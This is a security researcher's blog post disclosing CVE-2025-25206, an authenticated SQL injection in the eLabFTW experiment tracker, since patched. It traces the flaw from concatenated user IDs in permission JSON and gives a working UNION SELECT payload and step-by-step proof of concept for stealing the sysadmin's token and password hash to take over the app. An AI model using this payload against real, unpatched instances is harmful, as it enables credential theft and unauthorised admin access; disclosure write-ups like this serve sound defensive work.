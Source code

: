 ```yaml
---
layout: post
title: "Elabftw CVE-2025-25206"
category: cve
tags: [elabftw, cve-2025-25206, security]
---
```


## Authenticated SQL Injection via Metadata Update

### Identifying the Vulnerability

[Elabftw](https://github.com/elabftw/elabftw) is an experiment tracking software used by many universities, particularly in Europe it seems. I came across it during a CTF and thought it looked interesting, so I cloned the Github repo and started to dig in.

Prior to going deep into any web assessment, I like to manually look at every query string in an app to ensure that there aren't any irregularities.  Sure this takes time, but often I find that I can catch things that automated scanners miss.

Often times string concatenation is a major culprit for SQL injection, and since this app is written in PHP that syntax would look something like `$sql = "SELECT something from table WHERE id = " . $id`. Knowing this, I did a full regex search through the codebase along the lines of `/SELECT.*\..*/`, basically just looking for string concatenation.

After going through the results, one function in the `Users` model caught my eye

```php
    public function readNamesFromIds(array $idArr): array
    {
        if (empty($idArr)) {
            return array();
        }
        $sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
        $req = $this->Db->prepare($sql);
        $this->Db->execute($req);

        return $req->fetchAll();
    }
```

As can be seen, this `idArr` field is being concatenated onto the sql string.  


```php
$sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email 
FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
```

If somehow it weren't sanitized we as an attacker could inject arbitrary SQL and potentially read sensitive data.

Tracing the call stack, I found that `idArr` is passed in by `PermissionsHelper` to see which users have permissions to view an experiment.

```php
   /**
     * Make the permissions json string an array with human readable content, translate the ids
     */
    public function translate(Teams $Teams, TeamGroups $TeamGroups, string $json): array
    {
        $permArr = json_decode($json, true, 512, JSON_THROW_ON_ERROR);
        $result = array();

        $base = BasePermissions::tryFrom($permArr['base']) ?? throw new ImproperActionException('Invalid base parameter for permissions');
        $result['base'] = $base->toHuman();
        $result['teams'] = $Teams->readNamesFromIds($permArr['teams']);
        $result['teamgroups'] = $TeamGroups->readNamesFromIds($permArr['teamgroups']);
        $result['users'] = $Teams->Users->readNamesFromIds($permArr['users']);

        return $result;
    }
```

As can be seen, the `permArr` variable is just decoded JSON, and the `translate` function is just passing in the JSON from the key `users` to the `readNamesFromIds` function. If we as a user can alter the JSON (which is likely because we can update permissions for our experiments), we can execute a full SQL injection. 

Looking at the experiments UI, I saw an option to `changeVisibility` of an experiment. Clicking on it gives me this:

<figure style="text-align: center; margin: 2em 0;">
  <img src="/assets/img/elabftw/visibility.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
</figure>

After clicking save and proxying the request through Burpsuite, I see the following:

<figure style="text-align: center; margin: 2em 0;">
  <img src="/assets/img/elabftw/visibility_intercepted.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
</figure>


Perfect. As can be seen, when we update the `visibility` setting we are sending a JSON string with a `users` key, exactly what we need to abuse in order inject SQL.


### Exploiting

Given that we can inject arbitrary SQL, what type of attack should we go for next? Looking through the `MYSQL` config, I saw that the user does not have `FILE` permissions, so writing a reverse shell into the webroot is not an option.

Fortunately, there's a much simpler way to privilege escalation here -- a `UNION SELECT` query.  If we look at the original query,

```
$sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
```

we can see that it's fetching 3 text columns from the database. Given that most sensitive data (password hashes, tokens) are stored in the text format, we can use that to our advantage.

To escape out of the original SQL string and perform a UNION attack, I went with the following values for `users`:

```
9999999) UNION SELECT email, token, password_hash FROM users WHERE id = 1 OR 1 IN (2
```

While to those unfamiliar with SQLi this may look strange, when concatenated onto the original SQL query we get the following:

```
SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (9999999) UNION SELECT email, token, password_hash FROM users WHERE id = 1 OR 1 IN (2) ORDER BY fullname ASC
```

This is a perfectly valid SQL query. Note that the `SELECT CONCAT` part is basically ignored whereas the `UNION SELECT` part will always return results. This allows us to get the sysadmin's token and password hash, enabling full takeover of the app.

### PoC

1. Login to elabftw as an unprivileged user.
2. Create an experiment and edit the visibility. 
3. Capture the request in BurpSuite or another proxy. Change the `users` field in the `canread` JSON object to the payload above

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sqli.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

4. Refresh the experiments page. Where the permissions options lives, you should the see the results of the UNION query, which contains a password hash, token, or whatever you're targeting.

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sqli_results.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

5. If targeting admin token, copy the token and replace the existing `token` cookie with that value.  

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/token.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

6. Request the `sysconfig.php` page in your browser. You are now logged in as sysadmin with full control over the app.

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sysadmin.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

### Final Thoughts
This app in general is quite strictly audited and pretty well secure. It just goes to show that sometimes simple, obvious mishaps can go under the radar. 

Note that this has been patched and a security advisory has been published here: [GHSA-qffc-rfjh-77gg](https://github.com/elabftw/elabftw/security/advisories/GHSA-qffc-rfjh-77gg)
 
